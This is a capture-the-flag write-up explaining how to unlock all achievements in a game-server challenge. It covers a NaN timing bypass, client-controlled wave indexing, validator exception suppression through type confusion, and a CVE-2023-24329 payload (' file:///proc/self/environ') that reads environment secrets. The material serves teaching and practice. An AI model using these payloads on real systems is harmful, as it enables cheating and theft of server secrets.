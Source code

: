 # Writeup

In this challenge, challengers would have to find not just stupid and boring web vulnerabilities but also read a lot of sources to understand how this stuff is built and what parts are vulnerable.


## Goal
The goal here is to unlock all achievements, which are basically
```python
    Achievement(name='kill 1 mob', condition=lambda x: x.total_mobs_killed >= 1),
    Achievement(name='kill 5 mobs', condition=lambda x: x.total_mobs_killed >= 5),
    Achievement(name='kill 100 mobs', condition=lambda x: x.total_mobs_killed >= 100),

    Achievement(name='unlock level 2', condition=lambda x: x.level >= 2),
    Achievement(name='unlock level 5', condition=lambda x: x.level >= 5),
    Achievement(name='unlock level 75', condition=lambda x: x.level >= 75),

    Achievement(name='survive 5 waves', condition=lambda x: x.wave_number >= 5),
    Achievement(name='survive 50 waves', condition=lambda x: x.wave_number >= 50),
    Achievement(name='survive 150 waves', condition=lambda x: x.wave_number >= 150),

    Achievement(name='unlock all items', condition=lambda x: len(x.inventory) >= ITEMS_COUNT),

    Achievement(name='cheater!', condition=lambda x: x.is_cheater),
```

Easy enough, right? But the problem here is that whenever the server generates a new wave of mobs, it could include an invincible mob, and whenever you kill this mob, you cannot pass the wave.

```python
        if len(wave_info.mobs.enemies) != len(message.mobs):
            session.log_critical('Attempted to send invalid wave end message. len(enemies) != mobs_killed')

        if wave_info.mobs.contains_invincible_enemies:
            session.log_critical('Attempted to clear wave with an invincible mob!')
```

## Solving

To bypass the invincible mob check and wave timing checks, you could always send the wave number 1 and set all the times to NaN.

For the invincible check, the vulnerable part of the wave handler is 

```diff
    if session.game.wave_number > 0:
        if message.number > len(session.game.waves):
            return message

+        wave_info = session.game.waves[message.number - 1]

        if len(wave_info.mobs.enemies) != len(message.mobs):
            session.log_critical('Attempted to send invalid wave end message. len(enemies) != mobs_killed')

        if wave_info.mobs.contains_invincible_enemies:
            session.log_critical('Attempted to clear wave with an invincible mob!')
```

Essentially, to get the wave information, it uses the wave index passed from the client, so if we spam with wave number one, 
it would always get first-wave info, and since there would be no invincible mobs, the checks would pass.

As for the timing checks, the checks are implemented in this way
```diff
        cleared_in = message.current_time - wave_info.started_at_user_time
        min_clearance_time = (min_wave_clearance_time(
            sum([x.health for x in wave_info.mobs.enemies]), session.game.level
        ) * 1e3)
        min_clearance_time -= WAVE_REMOTE_CLEARANCE_WINDOW

+        if cleared_in < min_clearance_time:
            session.log_critical(f'Cleared wave too quickly ({cleared_in} vs {min_clearance_time} diff '
                                 f'{min_clearance_time - cleared_in})')

        cleared_in_local: float = time() - wave_info.started_at_local_time
        cleared_in_local -= WAVE_CLEARANCE_WINDOW
        cleared_in_local *= 1e3
+        if cleared_in_local > cleared_in:
            session.log_critical(f'Cleared wave too quickly #2 ({cleared_in_local} vs {cleared_in})')
```

But since we pass NaN, the subtraction operation will produce a NaN, and when you compare NaN with a number, it will always
return False.

So for the level, XP, and mob achievements, all we have to do is:
```python
send_msg(EPacketType.WAVE, proto.Wave(number=0, mobs=[], current_time=nan))

first_wave = wave_info

for m in first_wave.mobs:
    if m.invincible:
        print('goddamn, unlucky!')
        exit()

first_wave.number = 1
first_wave.current_time = nan

for i in range(150):
    send_msg(EPacketType.WAVE, first_wave)

send_msg(EPacketType.LEVEL_UP, proto.CLevelUp(item=13371337))
```

Next, we have the `unlock all items` achievement.

The first vulnerability to giving the items is that there is no check whether you are equipping an item you picked up from the mob.
To exploit it we can just send a message about equipping an item `rare item`.

```python
send_msg(EPacketType.INVENTORY_EQUIP, proto.CInventoryEquip(item=proto.ItemDetail(
    name='ultra rare item',
    damage=0,
    icon=''
)))
```

But! The thing is that the amount with which the application compares your inventory size is 6, and you can give yourself 
only 1 item.

The second vulnerability here is that when invoking handler validators, there's a `@logger.catch` on the invoking function.
```python
@logger.catch
async def _call_validator(handler: MessageHandler, session: Session, data: TMessageProto) -> bool:
    if handler.validator_callback is None:
        return True
    return await handler.validator_callback(session, data)


async def _call_dispatcher(handler: MessageHandler, session: Session, data: TMessageProto) -> TMessageProto:
    assert handler.dispatcher_callback is not None
    return await handler.dispatcher_callback(session, data)


async def call_message_handlers(session: Session, message: Message, data: TMessageProto) -> TMessageProto:
    result: TMessageProto = SPing()  # type: ignore

    for handler in registered_handlers[message.packet_type]:
        if await _call_validator(handler, session, data) is False:
            assert handler.reject_value is not None
            result = handler.reject_value
            continue

        result = await _call_dispatcher(handler, session, data)

    return result
```

Because of that, whenever an exception occurs within the validator, the exception is suppressed, and the function will 
return `None`.

And because the `call_message_handlers` function validates result of this function by comparing it `is False`, the 
`None` value here will pass.

If we take a look at the item pick-up validator, we can see this:
```python
@handler.validator()
async def on_inventory_equip_validator(session: Session, message: CInventoryEquip) -> bool:
    if message.item.name in [x.name for x in session.game.inventory]:
        return False

    return True
```

To make it throw an exception here, we can abuse the type confusion vulnerability in the protocol(tldr there are two packet 
identifiers, one for dispatcher and one for packet struct).

However, we need to pick a packet with an `item` attribute because the dispatcher needs it.

```python
for i in range(6):
    send_msg(EPacketType.INVENTORY_EQUIP, proto.CLevelUp(item=1))
```

OK wonderful, the only achievement left is `cheater !`.

If we take a look at how you can get it, there's a handler `RESOURCE`.

```python
@lru_cache(maxsize=128)
def request_url(url: str) -> bytes:
    return urlopen(url).read()


DEFAULT = request_url(f'http://127.0.0.1:{config.CDN_PORT}/default.png')


@handler.dispatcher()
async def on_resource_request(session: Session, msg: CRequestResource) -> SRequestResource:
    result = SRequestResource(item=DEFAULT, success=False)

    try:
        msg_item = msg.item.split('?')[0]
        info = urlparse(msg_item)
    except Exception as e:  # noqa
        return result

    if info.scheme in ['file']:
        return result

    try:
        data = request_url(msg_item)
        if b'cr3{' in data:
            session.game.is_cheater = True
            session.log_warn('Cheater!')
        result.success = True
    except Exception:  # noqa
        pass

    return result
```

The fun thing about this handler is that I was too lazy to implement this logic in the frontend, so basically, the frontend 
normally doesn't even communicate with the server using this packet.

The second fun thing about this handler is that the docker image is based on `python:3.10.0-slim-buster`; this version has 
an unpatched CVE `CVE-2023-24329`.

We can exploit this vulnerability to read the env and get the cheater's achievement.
```python
send_msg(EPacketType.RESOURCE, CRequestResource(
    item=f' file:///proc/self/environ'
))
```

Or, you can also use the data:// URI, that works too.

that's it
